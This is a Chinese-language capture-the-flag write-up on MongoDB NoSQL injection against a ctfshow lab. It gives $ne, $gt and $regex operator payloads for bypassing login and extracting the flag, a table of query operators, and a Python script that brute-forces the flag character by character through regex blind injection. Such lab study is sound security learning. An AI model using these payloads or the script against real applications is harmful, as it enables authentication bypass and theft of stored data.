 使用工具nosqlattack。不能用sqlmap。

```
/api/?id[]=flag
```
语句
```
$query = new MongoDB\Driver\Query($data);
$cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();

将不等于1的数据都查询出来
username[$ne]=1&password[$ne]=1
$ne是不相等的意思

查询用户名不为admin的数据
username[$ne]=admin&password[$ne]=1

大于
username[$gt]=admin3&password[$ne]=1

flag在password里面直接查
username[$ne]=1&password[$regex]=^ctfshow{
```

^
| 方法名  | 描述                                                   |
| ---- | ---------------------------------------------------- |
| $gt  | 大于                                                   |
| $lte | 小于等于                                                 |
| $in  | 包含                                                   |
| $nin | 不包含                                                  |
| $lt  | 小于                                                   |
| $gte | 大于等于                                                 |
| $ne  | 不等于                                                  |
| $eq  | 等于                                                   |
| $and | 与                                                    |
| $nor | $nor在NOR一个或多个查询表达式的数组上执行逻辑运算，并选择 对该数组中所有查询表达式都失败的文档。 |
| $not | 反匹配(1.3.3及以上版本)，字段值不匹配表达式或者字段值不存在。                   |
| $or  | 或                                                    |

^
## **盲注**
```
# @author：Myon
# @time：20240913
import requests
import string
 
url = 'http://9e856a5a-0dd8-4fac-8b5a-450688cee600.challenge.ctf.show/api/'
dic = string.digits+string.ascii_lowercase+'{}-_'
out = 'ctfshow{'
 
for j in range(9,50):
    for k in dic:
        payload = {'username[$ne]':'1','password[$regex]': f'^{out+k}'}
        # print(payload)
        re = requests.post(url, data=payload)
        # print(re.text)
        if "\\u767b\\u9646\\u6210\\u529f" in re.text: # 注意反斜杠需要转义
            out += k
            break
    print(out)
```